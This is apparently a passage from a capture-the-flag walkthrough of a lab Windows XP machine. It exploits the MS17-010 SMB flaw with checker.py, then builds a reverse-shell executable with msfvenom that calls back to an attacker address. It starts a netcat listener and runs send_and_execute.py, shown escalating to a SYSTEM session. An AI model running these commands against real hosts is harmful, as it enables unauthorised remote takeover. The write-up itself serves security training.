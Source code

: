 To get the available named pipes, we can run the checker.py script from the repo:

```
└─$ python3 checker.py 10.10.10.4 445                                                     
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
browser: Ok (32 bit)
spoolss: Ok (32 bit)
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED

```

To generate the reverse shell executable, we can use msfvenom (see Msfvenom Cheat Sheet for more details), which is part of Metasploit.

```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8003 -f exe > exploit.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
                                                                                                                 
└─$ file exploit.exe                                        
exploit.exe: PE32 executable (GUI) Intel 80386, for MS Windows

```

## Gaining Access

We need to start a netcat listener on the port we specified in the msfvenom command.&#x20;

```
└─$ nc -nvlp 8003
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8003
Ncat: Listening on 0.0.0.0:8003

```

Finally, we send the file using the send\_and\_execute.py script from the above repo.

```
└─$ python2 send_and_execute.py 10.10.10.4 exploit.exe spoolss                                               1 ⨯
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x81aaab30
SESSION: 0xe12b9c18
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
```
